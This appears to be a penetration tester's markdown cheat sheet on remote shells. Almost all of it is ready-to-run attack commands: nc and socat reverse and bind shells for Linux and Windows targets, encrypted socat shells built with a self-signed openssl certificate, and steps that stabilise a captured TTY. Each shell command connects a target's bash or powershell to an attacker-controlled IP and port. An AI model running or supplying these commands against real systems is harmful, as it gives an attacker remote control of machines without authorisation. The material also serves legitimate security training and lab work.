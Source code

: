 #### TYPES OF SHELLS
  
  Reverse shell - server sends you a shell and offers you a /bin/bash of sorts to run your commands  
  Bind shell - server opens up a port and offers you a bash to run your input against that
  
###### BASIC REVERSE/BIND SHELLS

`sudo nc -lvnp 443` - On the attacking machine  
`nc <LOCAL-IP> <PORT> -e /bin/bash` - On the target

###### STABILIZING NC SHELL

1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm`
3. background your reverse shell using Ctrl+Z
4. `stty raw -echo; fg` - bring back foreground

###### HOW TO USE VI / NANO ON REVERSE SHELL

1. run `stty -a` on your attacker machine - you will get some op that gives you numbers for rows and columns, say `rows 45; columns 115;`
2. in your shell, type `stty rows <number>`, `stty cols <number>`

###### SOCAT BASIC SHELLS

The easiest way to think about socat is as a connector between two points - MuirlandOracle

reverse shells

1. On attacker machine - `socat TCP-L:<port> -`
2. On Linux target - `socat TCP:<ATTACKER-IP>:<ATTACKER-PORT> EXEC:"bash -li"`
3. On Windows target - `socat TCP:<ATTACKER-IP>:<ATTACKER-PORT> EXEC:powershell.exe,pipes`

bind shells

1. on attacker machine - `socat TCP:<TARGET-IP>:<TARGET-PORT> -`
2. on linux target - `socat TCP-L:<PORT> EXEC:"bash -li"`
3. on windows target - `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

socat linux only very stable tty shell -
on linux attacker machine - ```socat TCP-L:<port> FILE:`tty`,raw,echo=0```  
on linux target machine - `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

###### SOCAT ENCRYPTED SHELLS

1. create a cert and key on attacker machine - `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
2. We then need to merge the two created files into a single `.pem` file - `cat shell.key shell.crt > shell.pem`

reverse shell listener - `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`  
on target machine - `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

if we want to do for a bind shell, just use the same listener command on target machine, and attach cmd.exe / bash to it

for eg: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` - 
remove this dash at the end (which previously connects listener and stdin) and place `EXEC:/bin/bash` (which connects listener and cmd.exe)  

socat very stable tty openssl listener  
on linux attacker machine - ```socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0```  
on linux target machine - ```socat OPENSSL:<attacker-ip>:<attacker-port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane```  

